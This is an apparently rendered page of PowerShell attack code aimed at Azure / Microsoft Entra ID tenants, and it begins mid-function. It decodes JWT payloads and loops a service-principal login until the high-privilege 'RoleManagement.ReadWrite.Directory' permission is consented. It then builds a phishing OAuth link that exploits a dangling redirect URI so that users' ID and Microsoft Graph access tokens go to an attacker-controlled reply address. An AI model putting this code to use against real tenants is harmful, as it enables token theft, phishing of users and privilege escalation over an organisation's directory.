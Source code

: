 ```shell
    # Convert to Byte array
    $tokenByteArray = [System.Convert]::FromBase64String($tokenPayload)
    # Convert to string array
    $tokenArray = [System.Text.Encoding]::ASCII.GetString($tokenByteArray)
    Write-Verbose "Decoded array in JSON format:"
    Write-Verbose $tokenArray
    # Convert from JSON to PSObject
    $tokobj = $tokenArray | ConvertFrom-Json
    Write-Verbose "Decoded Payload:"
    Write-Verbose $tokobj
    
    return $tokobj
}
```
```shell
$tid = ''
$appid = ''
$password = ''

$securePassword = ConvertTo-SecureString -String $password -AsPlainText -Force
$credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $appid, $securePassword

# Adapt to appropriate application permission
$permissionToConsent = 'RoleManagement.ReadWrite.Directory' 
$isConsented = $false
$retry = 120

Do {
    Clear-AzContext -Force
    Connect-AzAccount -ServicePrincipal -TenantId $tid -Credential $credential | Out-null
    $token = (Get-AzAccessToken -ResourceTypeName MSGraph).Token
    $roles = (Parse-JWTtoken $token).roles

    if ($roles -Contains $permissionToConsent) {
        $isConsented = $true
        Write-Output "Permission '$permissionToConsent' has been granted! P)"
    } else {
        $now = Get-Date -Format 'MM-dd-yyy - H:mm'
        Write-Output "${now}: No consent has been received. Retrying in $($retry / 60) minutes ..."
        Start-Sleep -s $retry
    }
} While (-not $isConsented)
```

### Create a phishing link to exploit a dangling redirect URI

```shell
$tid = ''
$appid = ''
$replyUri = ''

Write-output "https://login.microsoftonline.com/$tid/oauth2/v2.0/authorize?client_id=$appid&response_type=id_token%20token&redirect_uri=$replyUri&scope=openid%20https://graph.microsoft.com/.default&nonce=123456"
```
